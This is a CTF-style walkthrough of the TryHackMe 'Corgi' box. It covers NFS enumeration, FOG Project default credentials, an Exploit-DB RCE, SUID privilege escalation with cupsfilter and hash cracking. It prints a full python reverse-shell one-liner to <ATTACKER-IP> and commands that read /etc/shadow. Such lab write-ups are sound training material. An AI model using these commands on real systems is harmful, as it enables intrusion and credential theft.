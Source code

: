 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan.

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, let's use `showmount` to see if there are any shares we can mount to our system.

![showmount](Images/showmount.png)

looks like there are two shares we can mount, let's mount one of them and have a look around

![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching we will find documentation for something called 'FOG project'

![FOG documentation](Images/FOG_1.png)

And going to `<TARGET-IP>/fog` takes us to a login page

![FOG login](Images/FOG_2.png)

Now that we have a login page we need some credentials. before we try anything else let's try and find some default creds on google.

![FOG default creds](Images/FOG_3.png)

Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard let's have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.

![search on exploitdb](Images/exploit_1.png)

Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811

![exploit contents](Images/exploit_2.png)

Let's try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.

![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)

Running the hostname command to test if file upload worked

![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE let's get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)

And stabilise the shell

![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First let's find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`

![available binaries](Images/binaries.png)

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)

Let's copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

![cracking the hashes](Images/cracked.png)

So now we have a login, let's `su` into the new user and see what permissions they have.

![checking sudo -l](Images/sudo.png)

It looks like they can run any command, let's try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)